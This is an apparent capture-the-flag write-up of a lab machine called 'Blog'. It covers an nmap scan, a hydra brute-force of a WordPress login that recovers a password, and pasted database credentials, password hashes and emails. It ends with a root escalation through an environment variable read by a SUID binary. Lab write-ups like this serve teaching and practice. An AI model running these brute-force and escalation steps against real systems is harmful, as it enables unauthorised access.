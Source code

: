 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx blog.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV blog.thm
```

we got these open ports
```bash
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
Service Info: Host: BLOG; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```



```
(kali㉿kali)-[~]
└─$ hydra -I -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered for the username"   
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-08-29 14:10:36
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://blog.thm:80/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:F=The password you entered for the username
[STATUS] 295.00 tries/min, 295 tries in 00:01h, 14344104 to do in 810:25h, 16 active
[STATUS] 285.00 tries/min, 855 tries in 00:03h, 14343544 to do in 838:49h, 16 active
[ERROR] Can not create restore file (./hydra.restore) - Permission denied
[STATUS] 289.43 tries/min, 2026 tries in 00:07h, 14342373 to do in 825:55h, 16 active
[80][http-post-form] host: blog.thm   login: kwheel   password: cutiepie1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-08-29 14:20:51
```
cutiepie1


bjoel

/usr/sbin/checker

define('DB_NAME', 'blog');

/** MySQL database username */
define('DB_USER', 'wordpressuser');

/** MySQL database password */
define('DB_PASSWORD', 'LittleYellowLamp90!@');

/** MySQL hostname */
define('DB_HOST', 'localhost');


1 | bjoel      | $P$BjoFHe8zIyjnQe/CBvaltzzC6ckPcO/ | bjoel         | nconkl1@outlook.com          |          | 2020-05-26 03:52:26 |                     |           0 | Billy Joel    |
|  3 | kwheel     | $P$BedNwvQ29vr1TPd80CDl6WnHyjr8te. | kwheel

$P$B3vZ6q67nv8xI1idVRLUxQw/qDdGXc.

with ltrace /usr/sbin/checker, we see a getenv('admin')
we set a env admin variable : export admin=1
we launch the binary checker and wooo we're root

